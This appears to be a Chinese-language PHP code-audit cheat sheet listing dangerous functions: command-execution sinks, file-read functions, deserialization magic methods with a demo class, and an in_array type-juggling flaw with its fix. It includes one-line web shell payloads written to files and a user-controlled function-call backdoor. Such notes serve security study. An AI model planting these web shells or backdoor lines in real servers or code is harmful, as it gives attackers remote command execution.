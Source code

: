 ## 命令执行函数

```php
eval($_GET["code"])
assert('phpinfo()');
preg_replace('/asd/e', $_POST['a'], 'asdfasdg');
create_function('', $_POST['cmd']);
call_user_func('assert', $_REQUEST['cmd']);
call_user_func_array('assert', $arr);
array_filter(array("a",phpinfo(),2,3,4));
file_put_contents('muma.php', '<?php eval($_REQUEST[cmd]);?>');
fputs(fopen('shell.php', 'w'), '<?php eval($_REQUEST[cmd])?>');
system('whoami');
passthru('whoami')
print(exec('whoami'));
print(shell_exec('whoami && dir'));
print(`whoami`);    ## 加了反引号的字符串将尝试作为外壳命令来执行，并将奇输出信息返回。
array_map(array(1,2,3,4,eval($_GET["code"])));
usort(array(1,3,2,5,phpinfo()));
uasort(array("a"=>4,"b"=>phpinfo()));
uksort(array("a"=>4,"b"=>phpinfo()));
array_reduce(array(phpinfo()));

$_GET['a']($_POST['b']);

```

php任意文件读取函数

```php
fopen()
file_get_contents()
fread
fgets
fgetss
file
fpassthru
parse_ini_file
readfile

allow_url_fopen选项激活了URL形式的fopen封装协议使得可以访问URL对象例如文件。默认的封装协议提供用ftp和http协议来访问远程文件，一些扩展库例如zlib可能会注册更多的封装协议
```

- serialize/unserialize   反序列化漏洞
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发

```php
<?php
header("Content-type: text/html; charset=utf-8");
class Pers
{
    public $name = '';
    public $age = '18';
    private $ages = 1;

    public function __construct(){
        echo '1-创建对象触发'."<br>";
    }
    public function __destruct(){
        echo '2-销毁对象触发'."<br>";
    }
    public function __toString(){
        return '3-对象当作字符串使用时触发'."<br>";
    }
    public function __wakeup(){
        echo '4-使用unserialize时触发'."<br>";
    }
    public function __sleep(){
        echo '5-使用serialize时触发'."<br>";
        return(array('name'));
    }
    public function __get($p){
        echo '6-获取类的私有属性，或者不存在的方法会触发'."<br>";
    }
    public function __set($n,$v){
        echo "7-设置不存在的类属性会触发"."<br>";
    }
    public function __isset($p){
        echo "8-判断属性不存在的时候触发"."<br>";
    }
    public function __unset($content) {
        echo "9-当在类外部使用unset()函数来删除私有成员时自动调用的<br>";
    }
    public function __invoke($content) {
        echo "10-把一个对象当成一个函数去执行<br>";
    }
}

$per = new Pers();
$per->name = 'laol';
$per->age = '20';
echo $per;
serialize($per);
unserialize('O:4:"Pers":2:{s:4:"name";s:4:"laol";s:3:"age";s:2:"20";}');
$per->p1;
isset($per->ages);
$per->n = 'aa';
unset($per->ages);
$per('111');
```

- in_array函数缺陷

PHP在使用 in_array() 函数判断时，会将 7shell.php 强制转换成数字7,修复方法将 in_array() 函数的第三个参数设置为 true ，或者使用 intval() 函数将变量强转成数字，又或者使用正则匹配来处理变量

```php
?id=1 and 1=1
if (!in_array($_GET['id'], array(1,2,3,4))) {
    die("id $id is not in whitelist.");
}
echo $_GET['id'];
```

- filter_var函数缺陷

filter_var() 函数通过指定的过滤器过滤一个变量。如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。

